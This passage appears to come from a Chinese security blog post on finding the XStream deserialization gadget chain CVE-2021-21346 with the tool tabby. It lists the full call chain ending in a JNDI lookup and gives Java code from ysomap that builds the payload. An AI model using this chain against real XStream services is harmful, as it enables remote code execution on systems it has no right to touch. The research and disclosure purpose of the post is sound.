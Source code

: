 这里的类属性value发起了equals函数，往下看`com.sun.org.apache.xpath.internal.objects.XString#equals`

```java
public boolean equals(Object obj2)
  {

    if (null == obj2)
      return false;

      // In order to handle the 'all' semantics of
      // nodeset comparisons, we always call the
      // nodeset function.
    else if (obj2 instanceof XNodeSet)
      return obj2.equals(this);
    else if(obj2 instanceof XNumber)
        return obj2.equals(this);
    else
      return str().equals(obj2.toString());
  }
```

这里直接调用了obj2的toString函数，所以连上前面的利用链完整的利用链就出来了

```
javax.naming.ldap.Rdn$RdnEntry.compareTo
    com.sun.org.apache.xpath.internal.objects.XString.equal
        javax.swing.MultiUIDefaults.toString
            UIDefaults.get
                UIDefaults.getFromHashTable
                    UIDefaults$LazyValue.createValue
                    SwingLazyValue.createValue
                        javax.naming.InitialContext.doLookup()
```

至此，CVE-2021-21346就挖出来了，相对于人工挖，当前的方法大幅度减少了利用链的可能性种类，同样，另一条CVE-2021-21351也是同样的方法可以发现，以后有空再补充些其他的案例:)

# #3 利用链构造

当前这条利用链的构造相对来说比较简单，只需要构造好MultiUIDefaults即可，下面为部分构造代码，详细见[LazyValue](https://github.com/wh1t3p1g/ysomap/blob/master/core/src/main/java/ysomap/core/payload/xstream/LazyValue.java#L60)

```java
UIDefaults uiDefaults = new UIDefaults();
Object multiUIDefaults =
  ReflectionHelper.newInstance("javax.swing.MultiUIDefaults", new Object[]{new UIDefaults[]{uiDefaults}});
uiDefaults.put("lazyValue", obj);

Object rdnEntry1 = ReflectionHelper.newInstance("javax.naming.ldap.Rdn$RdnEntry", null);
ReflectionHelper.setFieldValue(rdnEntry1, "type", "ysomap");
ReflectionHelper.setFieldValue(rdnEntry1, "value", new XString("test"));

Object rdnEntry2 = ReflectionHelper.newInstance("javax.naming.ldap.Rdn$RdnEntry", null);
ReflectionHelper.setFieldValue(rdnEntry2, "type", "ysomap");
ReflectionHelper.setFieldValue(rdnEntry2, "value", multiUIDefaults);

return PayloadHelper.makeTreeSet(rdnEntry2, rdnEntry1);
```

# #4 总结

13号的时候XStream发布了1.4.16，共修复了11个CVE，其中还比较有意思的是threedr3am的classloader的利用方式，以及钟潦贵师傅的CVE-2021-21345（这条利用链很长，我当前只用tabby做了12个节点的查找，这条链大概有20个节点，嗯，很长）。相信这波完了之后，估计还能找到一些漏网之鱼XD

